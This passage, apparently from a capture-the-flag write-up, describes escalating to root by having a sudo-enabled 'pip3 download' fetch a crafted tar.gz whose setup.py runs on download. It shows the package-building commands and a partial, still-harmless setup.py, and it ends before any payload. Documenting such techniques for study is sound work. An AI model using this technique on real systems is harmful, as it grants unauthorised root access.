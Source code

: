 We are able to insert a new file.

In order to use sudo and to escalade privileges, we would need to call `pip download` :

```shell
pip3 download http://127.0.0.1:3000/*.tar.gz
```

So we can use this space to insert a file .tar.gz and use `pip download`.

Searching for a vulnerability ("pip download tar.gz vulnerability"), leads to some interesting pages :
- https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/
- https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/

And a repository: https://github.com/wunderwuzzi23/this_is_fine_wuzzi

Even if `pip download` aim downloading archive, if this archive contains a `setup.py`, this file would be executed. Since we execute this command with `sudo`, this would lead to executing code with higher privileges.

In order to build a python package, we can use the documentation: https://packaging.python.org/en/latest/guides/distributing-packages-using-setuptools/

We can find several tutorials on creating a simple python package:
- https://dzone.com/articles/executable-package-pip-install
- https://packaging.python.org/en/latest/guides/distributing-packages-using-setuptools/
- https://www.tutorialsteacher.com/python/python-package
- https://www.blog.pythonlibrary.org/2021/09/23/python-101-how-to-create-a-python-package/

We have some pre-requisites:

pip install setuptools
pip install build

We have to create a few files :

- `README.md`
- `setup.py`
- `packagename/__init__.py`

```
PACKAGE_NAME="mytest"
mkdir ${PACKAGE_NAME}
cd ${PACKAGE_NAME}
echo "test" > README.md
mkdir ${PACKAGE_NAME}
touch ${PACKAGE_NAME}/__init__.py
```

setup.py :

```python
import setuptools
with open("README.md", "r") as fh:
    long_description = fh.read()
setuptools.setup(
    name="mytest",
    version="0.0.1",
    author="John Doe",
    author_email="john@example.com",
    description="A simple package",
    long_description=long_description,
    long_description_content_type="text/markdown",
    url="https://github.com/",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
```